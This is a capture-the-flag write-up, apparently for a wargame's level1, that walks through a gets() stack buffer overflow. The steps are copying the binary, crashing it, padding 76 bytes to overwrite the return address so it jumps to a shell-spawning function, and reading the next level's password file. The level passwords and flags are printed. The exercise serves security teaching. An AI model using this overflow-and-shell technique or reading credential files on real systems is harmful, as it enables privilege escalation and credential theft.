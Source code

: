 # level1

## Vulnerability: Trivial buffer overflow

level1's password: `1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a`

1. examinate existing files and permissions

```shell
ls -la
```

shows that the level1 executable belongs to level2, privilege escalation should be possible

2. get the executable (from an external device), decompile it using [ghidra](https://github.com/NationalSecurityAgency/ghidra) and examine the resulting code

```shell
scp -P 4242 level1@<host>:level1 .
```

c file shows a simple `gets()` function that reads from stdin and puts the result in a variable, we might be able to spawn a shell using a buffer overflow. An unsued function itself spawns a shell, we might want to use it.

3. test the vulnerability

```shell
python -c 'print "k"*100' | ./level1
```

shows a SEGV, meaning that the program is vulnerable, we can use a buffer overflow to overwrite the return address and execute arbitrary code

4. exploit the buffer

either by using `exploit.py` or by reading the variable declaration in the c file we can calculate the padding of 76. It would also be possible to get it with gdb, but I did succeed without using gdb. Using `objdump -d level1` we can get `run`'s function's address, an thus run the exploit. Keep in mind that memory uses little endian addressing, thus converting `12345678` to `\x78\x56\x34\x12`.

```shell
python -c 'print "k"*76 + "<little endian address>"' | ./level1
```

5. use cat to read from stdin and access the shell (otherwise the program exits)

```shell
(python -c 'print "k"*76 + "<little endian address>"' ; cat) | ./level1
```

6. get the flag

```shell
whoami
cat /home/user/level2/.pass
```

gives flag: `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`
